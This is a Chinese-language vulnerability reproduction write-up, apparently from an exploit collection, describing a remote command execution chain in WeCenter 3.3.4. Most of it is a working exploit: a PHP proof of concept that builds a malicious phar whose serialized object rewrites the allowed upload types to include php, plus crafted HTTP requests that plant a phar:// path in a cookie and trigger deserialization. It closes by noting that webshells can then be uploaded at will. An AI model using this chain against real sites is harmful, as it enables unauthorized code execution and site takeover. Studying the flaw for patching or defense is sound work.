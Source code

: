 ```yaml
---
title: "WeCenter 3.3.4 远程命令执行"
id: zhfly3237
---
```


# WeCenter 3.3.4 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型** 处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意 **SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![image](../img/fb5ef5bb78f171641a3ba8e9777b23c5.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘update aws_system_setting set value=‘s:45:“jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php”;’ where varname=‘allowed_upload_types’’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP** 生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![image](../img/5542c4ea04a0d5a3423357a84abedbd1.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie** 前缀每个网站都不一样，修改成自己的即可）。

```
GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
Connection: close
$wx = array(
    'access_token' => array('openid'=>1),
    'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
);
echo json_encode($wx); 
```

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

```
GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
Connection: close 
```

现在，我们就可以随意上传 **webshell** 了。

![image](../img/76403d258224243ddddc1f8950ac03b6.png)

![image](../img/84c10eaf6a8bd73017f67cdb125cac76.png)